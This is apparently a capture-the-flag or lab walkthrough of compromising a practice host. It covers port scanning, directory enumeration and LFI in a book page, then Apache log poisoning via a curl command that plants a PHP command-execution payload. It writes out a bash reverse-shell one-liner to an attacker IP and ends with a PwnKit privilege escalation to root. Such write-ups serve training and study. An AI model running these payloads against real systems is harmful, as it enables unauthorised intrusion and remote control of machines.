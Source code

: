 Started with a nmap scan
```
21 pyftpdlib 1.5.6
22 OpenSSH 7.9p1
25 Exim smtpd
80 Apache 2.4.38
2121 pyftpdlib 1.5.6
3128 squid http proxy 4.6
8593 PHP cli server
54787 PHP cli server
62524 Freefloat FTP 1.00
```
Checked both the FTP services and they don't allow anonymous login but one did `2121` and has a `pub` folder but we cant PUT any files on the FTP 
Checked all the webservers and only two had pages that loaded `80,54787` the one on  port `80` says the `database is being configured` and the other webhost just loads a blank page going to run a gobuster scan on them 
Webhost port `80`
```
/app
/javascript
/backup
```
Webserver port `54787`
```
/project
```
When going to `project` on the webhost we get a login page for something called `File Thingie` its a File manager but I cant seem to exploit this going back to the webhost on port `80` looking back at the source it says its powered by `phpIPAM 1.4` but the links to the login page for the SQL exploit all get `403` so now going to the webhost on port `8593` there is a page saying `still setting up the libaray` and it has two links on the page one for Main home page and one for a book list which is vulnerable to LFI `index.php?book=` looking at the `/etc/passwd` there is only two users `root,miguel` doing some testing with this we need to do some log poisoning so going to `/var/log/apache2/access.log` we can see the log file so if we run a curl with some PHP code we can get RCE `curl -A "<?php system (\$_GET['cmd']); ?>" http://192.168.211.72` and when we go to the LFI now we can run code on the host `/index.php?book=../../../../var/log/apache2/access.log&cmd=id` and viewing the log we see `www-data` now we need to get a reverse shell and we can use bash for this `bash -c 'bash -i >& /dev/tcp/192.168.45.158/8080 0>&1'`  and we need to url encode this and then run it and we got a call back as the `www-data` user as when seen in the log we can get the first flag and when doing some enumeration we seen we have the SUID bit set on the `apache.log.1` file and a the error file as well but its also vulnerable to PwnKit which is a lot easier running that exploit now we are root   